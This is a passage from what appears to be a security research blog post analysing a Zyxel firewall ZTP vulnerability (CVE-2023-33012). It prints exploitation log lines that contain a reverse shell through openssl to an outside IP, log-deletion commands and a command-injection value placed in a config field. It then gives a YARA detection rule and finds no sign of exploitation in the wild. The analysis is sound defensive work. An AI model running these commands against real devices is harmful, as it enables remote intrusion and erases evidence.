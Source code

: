 this:\\n\\n\`\`\`\\nINFO:root:ztp\_led\_start\\nINFO:root:sending "1"\\nINFO:root:closing socket\\nINFO:root:init\\nINFO:root:setting up vti interface\\nINFO:root:((cd=/tmp; mknod Hua p; sh -i < Hua 2>&1 | openssl s\_client -quiet -connect 10.12.70.252:1270 > Hua; rm Hua;)&);((sleep 20; ifconfig gre1 down; ip tunnel del gre1 mode gre; rm /var/log/ztplog /tmp/sdwan\_interface/sdwan\_interface.log /tmp/\*.qsr)&);; name=EAg; proto=vti\\nINFO:root:parse config error : {'((cd': '/tmp; mknod Hua p; sh -i < Hua 2>&1 | openssl s\_client -quiet -connect 10.12.70.252:1270 > Hua; rm Hua;)&);((sleep 20; ifconfig gre1 down; ip tunnel del gre1 mode gre; rm /var/log/ztplog /tmp/sdwan\_interface/sdwan\_interface.log /tmp/\*.qsr)&);', 'name': 'EAg', 'proto': 'vti'}\\nINFO:root:KeyError('ipaddr',)\\nINFO:root:ztp\_led\_start\\nINFO:root:sending "1"\\nINFO:root:closing socket\\nINFO:root:init\\nINFO:root:setting up gre interface\\nINFO:root:name=XsDfb; proto=gre; ipaddr=; . /tmp/EAg.qsr; #; localip=127.0.0.1; netmask=24; remoteip=127.0.0.1; gateway=0\\n\[IPC\]argc = 8\\n\[IPC\]IPC result: 1 \\n\`\`\`\\n\\nAbove, you can see both the file write (line ending with \`proto=vti\`) and the command injection (line ending with \`gateway=0\`) are present. A very simple YARA rule to parse the logs for exploitation looks like:\\n\\n\`\`\`\\nrule Zyxel\_CVE\_2023\_33012\\n{\\n meta:\\n description = "Zyxel ZTP Config Parser Exploit Attempt"\\n path\_pattern = "/ztp/cgi-bin/dumpztplog.py"\\n strings:\\n $vti = "proto=vti"\\n $gre = "proto=gre"\\n $tmp = "/tmp/"\\n $qsr = ".qsr"\\n condition:\\n all of them\\n}\\n\`\`\`\\n\\nWe grabbed the ZTP logs of all ~7,600 firewalls using vulnerable firmware and found… absolutely nothing that looked like an exploitation attempt. Of course, the ZTP log is deleted on reboot (and an attacker can delete on exploitation), but this seems like a reasonable indicator that it isn’t being widely exploited.\\n\\nWe did find 18,000+ log entries that read, \`ERROR:root:Cannot find sdwan\_interface socket \[/tmp/sdw\_iface\_server.sock\]!\` This does prove the interface is seeing traffic, but because those endpoints aren’t vulnerable, we see nothing more in the logs.\\n\\nAs a final attempt to determine if this is being actively exploited in the wild, we turned to our friends at GreyNoise. Looking at \`raw\_data.web.paths:"/ztp/cgi-bin/parse\_config.py”\` shows \[no results\](https://viz.greynoise.io/query/raw\_data.web.paths:%22%2Fztp%2Fcgi-bin%2Fparse\_config.py%22), so they aren’t seeing the exploit hit their honeypots. They do see one IP address doing Zyxel version probing via \`zld\_product\_spec.js\` just like the SSD proof of concept, but that's about it. \\n\\n!\[GreyNoise flagged IP scanning for Zyxel\](/blog/zyxel-cve-2023-33012/greynoise-zyxel-scanning.png){:width="100%"}\\n\\nThere’s basically no evidence that this vulnerability is being exploited in the wild at any scale, and with so few vulnerable targets remaining, we assume it never will be.\\n\\n## Conclusion\\n\\nThe goal of vulnerability disclosure should be to inform and provide actionable intelligence. Publishing incorrect, obfuscated, and/or misleading information wastes everyone’s time and only introduces more FUD to an industry that is already drowning in it. This Zyxel firewall issue did not live up to the disclosure. It only affects a specific configuration, is not easy to re-exploit, and was assigned a CVE when patched six months ago. Most Zyxel users needn’t have ever worried about it.\\n\\n## About VulnCheck\\n\\nThe VulnCheck Initial Access team is always looking to advance the state of attack on initial access vulnerabilities. For more research like this, see our blogs, \[PaperCut Exploitation\](https://vulncheck.com/blog/papercut-rce) and \[Fileless Remote Code Execution on Juniper Firewalls\\n\](https://vulncheck.com/blog/juniper-cve-2023-36845). Sign up to start a trial of our \[Initial Access Intelligence\](https://vulncheck.com/product/initial-access-intelligence) and \[Exploit & Vulnerability Intelligence\](https://vulncheck.com/product/exploit-intelligence) product today.\\n

#### [Source](https://vulncheck.com/blog/zyxel-cve-2023-33012)

<br/>
---

